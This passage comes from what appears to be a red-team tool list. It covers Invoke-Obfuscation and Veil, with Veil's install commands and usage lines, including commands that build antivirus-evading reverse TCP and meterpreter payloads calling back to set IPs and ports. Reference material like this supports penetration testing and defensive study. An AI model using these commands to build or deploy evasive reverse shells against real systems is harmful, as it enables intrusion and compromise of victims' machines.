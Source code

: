 **Usage:** 

```bash
./Invoke-Obfuscation
```

![image](https://user-images.githubusercontent.com/100603074/206557377-a522ab7a-5803-48b0-8f3e-d7d7b607e692.png)

### [🔙](#tool-list)[Veil](https://github.com/Veil-Framework/Veil)

Veil is a tool for generating metasploit payloads that bypass common anti-virus solutions.

It can be used to generate obfuscated shellcode, see the official [veil framework blog](https://www.veil-framework.com/) for more info.

**Install: (Kali)** 

```bash
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

**Install: (Git)** 

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

**Usage:** 

```bash
# List all payloads (–list-payloads) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-payloads

# List all encoders (–list-encoders) for the tool Ordnance (-t Ordnance)
./Veil.py -t Ordnance --list-encoders

# Generate a reverse tcp payload which connects back to the ip 192.168.1.20 on port 1234
./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 192.168.1.20 --port 1234

# List all payloads (–list-payloads) for the tool Evasion (-t Evasion)
./Veil.py -t Evasion --list-payloads

# Generate shellcode using Evasion, payload number 41, reverse_tcp to 192.168.1.4 on port 8676, output file chris
./Veil.py -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.4 --port 8676 -o chris
```

Veil creators wrote a nice [blog post](https://www.veil-framework.com/veil-command-line-usage/) explaining further ordnance and evasion command line usage.

![image](https://user-images.githubusercontent.com/100603074/210136422-6b17671f-8868-4747-a7fe-e75d36b99e61.png)
